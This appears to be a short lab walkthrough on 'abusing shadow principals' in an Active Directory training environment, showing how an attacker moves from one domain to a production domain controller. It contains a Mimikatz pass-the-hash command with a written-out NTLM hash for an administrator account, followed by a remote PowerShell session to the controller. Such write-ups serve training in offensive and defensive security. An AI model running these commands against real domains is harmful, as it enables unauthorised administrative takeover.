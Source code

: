 # Abusing Shadow Principals
- We can access `PRODUCTION-DC` from `us.techcorp.local` using **winrs**. First we need to find the IP address of the target DC on `BASTION-DC`, since `techcorp.local` does not have a DNS entry for the target domain.
```powershell
PS C:\Windows\Tasks> nslookup production.local
nslookup production.local
Non-authoritative answer:
DNS request timed out.
    timeout was 2 seconds.
Server:  UnKnown
Address:  ::1

Name:    production.local
Address:  192.168.102.1
```
- We need to impersonate `bastion\Administrator` while simultaneously creating a new PowerShell process. We will have to do it using **Mimikatz** or **Safetykatz** because **Rubeus** will not work.
```powershell
PS C:\Auditor> .\mimikatz.exe "sekurlsa::pth /user:administrator /domain:bastion.local /ntlm:f29207796c9e6829aa1882b7cccfa36d /run:powershell.exe" "exit"

<snip>
```
- We can now access `PRODUCTION-DC`.
```powershell
PS C:\Windows\system32> Enter-PSSession 192.168.102.1 -Authentication NegotiateWithImplicitCredential
[192.168.102.1]: PS C:\Users\Administrator.BASTION\Documents> whoami;hostname
bastion\administrator
Production-DC
```